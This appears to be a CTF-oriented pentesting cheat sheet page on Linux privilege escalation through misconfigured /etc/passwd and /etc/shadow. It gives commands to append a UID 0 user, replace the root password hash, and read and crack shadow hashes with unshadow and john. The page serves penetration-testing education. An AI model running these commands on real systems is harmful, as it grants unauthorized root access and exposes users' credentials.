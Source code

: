 # /etc/shadow & /etc/passwd

in a real life scenario its really uncommon to see /etc/passwd or /etc/shadow files with write access for any user other than root.

the methods shown here are mostly seen in easy or intermediate level CTFs but its still good to know these.

## Add /etc/passwd new root user

if we have write permission to /etc/passwd we can add a new root user with password hash and the right format  
  
 first we create a hash for our root user password:  
  
 `openssl passwd evil  
 echo "root2:[password hash]:0:0:root:/root:/bin/bash" >> /etc/passwd`

now login using the new root account:

![](../../../.gitbook/assets/etc1.png)

## Change the /etc/shadow root hash

if we have write access to /etc/shadow file we can add a new password hash for the root user:

#### `mkpasswd -m sha-512 “new password”`

replace the root hash with this new hash and login:

![](../../../.gitbook/assets/etc2.png)

## Hash cracking

if the /etc/shadow is readable copy the root user hash to the local system:

#### `ls -l /etc/shadow head -n 1 /etc/shadow`

Crack the password hash using john:

#### `john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt  john --format=sha512crypt hash.txt --show`

#### `unshadow /etc/passwd /etc/shadow > hash`

{% hint style="info" %}
#### `if the "unshadow" command ins not available on target system just copy the content of both files to your own machine and run unshadow on them or just install the unshadow tool on victim machni using apt. remember the order of files is important when unshadowing. /etc/passwd is always first and then there is /etc/shadow.`
{% endhint %}









